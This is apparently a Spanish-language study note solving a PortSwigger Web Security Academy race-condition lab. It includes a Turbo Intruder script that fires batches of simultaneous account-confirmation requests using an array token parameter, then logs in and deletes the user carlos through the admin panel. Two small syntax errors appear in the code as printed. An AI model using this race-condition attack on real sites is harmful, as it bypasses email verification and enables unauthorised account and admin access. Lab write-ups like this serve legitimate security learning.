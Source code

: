 Una vez lanzado el ataque, revisamos los resultados en función del código de estado y el tamaño de la respuesta. Si alguna de las confirmaciones devuelve un 200 y menciona que el registro del usuario fue exitoso, tomamos nota del nombre de usuario.

Luego, usamos la contraseña estática definida en el ataque para iniciar sesión con la nueva cuenta. Finalmente, accedemos al panel de administración y eliminamos al usuario carlos, resolviendo así el laboratorio.

Esta clase muestra cómo confirmar el éxito del ataque y completar la explotación de principio a fin.

Solucion
 y quedaria asi
(def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    confirmation_email =  '''POST /confirm?token[]= HTTP/2
Host: 0ade005a033104308015582a00e700ce.web-security-academy.net
Cookie: phpsessionid=RxwYlBG5FYgFJmUUJwzvxA29D7mv7opF
Content-Length: 0

'''
    
    # the 'gate' argument withholds part of each request until openGate is invoked
    # if you see a negative timestamp, the server responded before the request was complete
    for i in range(20):
        username = "Lobotech" + str(i)
        engine.queue(target.req, username, gate=str(i))

        for j in range(50):
            engine.queue(confirmation_email, gate=str(i))

    # once every 'race1' tagged request has been queued
    # invoke engine.openGate() to send them in sync
    engine.openGate(str(i))


def handleResponse(req, interesting):
    table.add(req))


me sirvio el payload el otro payload

![Pasted_image_20250901230643.png](/Imagenes/Pasted_image_20250901230643.png)
asi que probamos logearnos
![Pasted_image_20250901230835.png](/Imagenes/Pasted_image_20250901230835.png)
y eliminamos al carlos
![Pasted_image_20250901230905.png](/Imagenes/Pasted_image_20250901230905.png)
asi quedo
![Pasted_image_20250901230936.png](/Imagenes/Pasted_image_20250901230936.png)
![Pasted_image_20250901230959.png](/Imagenes/Pasted_image_20250901230959.png)
![Pasted_image_20250901231017.png](/Imagenes/Pasted_image_20250901231017.png)
